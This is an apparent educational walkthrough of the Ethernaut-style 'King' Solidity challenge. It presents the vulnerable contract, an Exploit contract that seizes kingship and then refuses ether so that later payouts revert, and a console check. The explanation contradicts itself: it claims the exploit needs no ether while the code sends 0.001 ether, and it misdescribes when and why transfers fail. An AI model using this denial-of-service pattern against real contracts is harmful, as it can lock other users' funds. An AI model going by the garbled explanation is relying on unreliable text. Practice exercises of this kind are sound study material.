 # Exploiting the King Contract

In the realm of smart contracts, security is paramount. Understanding vulnerabilities and how to exploit them is crucial for both developers and auditors. In this educational walkthrough, we'll explore a common vulnerability and demonstrate how to exploit it in the context of a simple Solidity contract.

## The King Contract

Let's begin with the target contract, aptly named `King`. Below is the Solidity code for the `King` contract:

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract King {
    
      address king;
      uint public prize;
      address public owner;
    
      constructor() payable {
        owner = msg.sender;  
        king = msg.sender;
        prize = msg.value;
      }
    
      receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
      }
    
      function _king() public view returns (address) {
        return king;
      }
    }

This contract features a simple game where participants can become the "king" by sending a higher prize than the current one. The current king is the address associated with the king variable, and the prize value is stored in the prize variable. The receive() function handles incoming ether, updating the king and prize accordingly.

## Exploiting the Vulnerability
Our goal is to become the king without actually sending any ether to the contract. To achieve this, we'll deploy an exploit contract that intercepts the incoming ether and prevents the King contract from updating the king. Here's the exploit contract:

    ```solidity
    contract Exploit {
        King target;
    
        constructor(address _target) payable {
            target = King(_target);
            // Call the target contract's fallback function and send 0.001 ether
            (bool success, ) = _target.call{value: 0.001 ether}("");
            require(success, "Call failed");
        }
    }

This Exploit contract does not have any payable functions, meaning it rejects any ether sent to it.

## Exploiting the King Contract
To exploit the King contract, we deploy the Exploit contract and ensure that the King contract sends ether to it during deployment. Once deployed, the King contract will attempt to transfer ether to the current king upon receiving a higher prize. However, since the Exploit contract rejects any incoming ether, the king will not be updated.

By calling the _king() function on the King contract instance, we can confirm that our exploit contract address is now the king.

    ```solidity
    await contract._king() 

Congratulations! You have successfully exploited the vulnerability in the King contract.

## Conclusion
Understanding vulnerabilities and how to exploit them is crucial for ensuring the security of smart contracts. By exploring and experimenting with vulnerabilities in a controlled environment, developers and auditors can better protect against potential exploits in real-world contracts.


